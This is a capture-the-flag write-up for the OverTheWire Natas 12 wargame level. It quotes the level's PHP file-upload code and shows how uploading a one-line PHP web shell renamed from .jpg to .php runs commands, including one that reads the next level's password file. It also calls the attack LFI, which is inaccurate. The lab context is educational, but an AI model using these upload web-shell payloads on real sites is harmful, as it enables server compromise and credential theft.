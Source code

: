 # [Natas 12](http://natas12.natas.labs.overthewire.org/)

![1](https://github.com/GHAFRI/Writeups/blob/master/Web/OverTheWire/Natas/Natas12/1.png)

## Solution

If we check the source code we see
```
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="wkmjb7q5ue.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
```
As we keep refreshing the page, we still get `random` name for the `value="wkmjb7q5ue.jpg"` file.
If we have a look at the [Source code](http://natas12.natas.labs.overthewire.org/index-source.html), we see
```
<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
```
We see that the file gets a random `path` from the function `makeRandomPath()` and `name` from `genRandomString()`.
Down we also see `<? print genRandomString(); ?>.jpg` which was also presented in `index.php` webpage. 
This is an LFI type of attack, for extra details check [trialofbits](https://vimeo.com/32509769).
A tpical PHP line to exploit check: <? echo system(\" ls; \") ?>
Now lets make a `php` line hidden in a `jpg`. 
To do that we use: `echo "string " > name.jpg`.
So, we use `echo "<? echo system(\" ls \"); ?>" > 1.jpg`.
Now we go back to the site and upload the image file.
Before we click on `Upload`, we `Inspect` on the image that we uploaded using `Dev Tools`.
We look back for `value="random_name.jpg"` and we change it to `value="random_name.php`.
We click `Enter` to make sure its changed.
Now `Upload`.
It gives us `The file upload/j31o6bx15x.php has been uploaded`, when we check that page we get this list
```
3fw5idg4y8.php
3kzfrrvgig.php
5mwyyz89cj.jpg
77smoe16do.php
9xpr4x28pp.jpg
bf0tmyncki.jpg
ccw3b8bcic.jpg
eowa7mjj39.php
j31o6bx15x.php
klpn4rtlu0.php
lj1edrky2p.jpg
mvlaf05fnt.jpg
o6ktlghv56.php
q2k5lew3pp.jpg
qvipmjgium.php
qvipmjgium.php
````
It seems the exploit worked. Those are probably `exploits` from other players to find the `password`. We can check them for a clue for the location or we can just use the same location we found in `Natas10`.
To do that, we create a new file with new code by `echo "<? echo system(\" cat /etc/natas_webpass/natas13 \"); ?>" > 2.jpg`.
This will display the Natas13 password for us.
Now we do the same steps like before and we check
```
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
``` 
Finally, the passcode is `jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`.

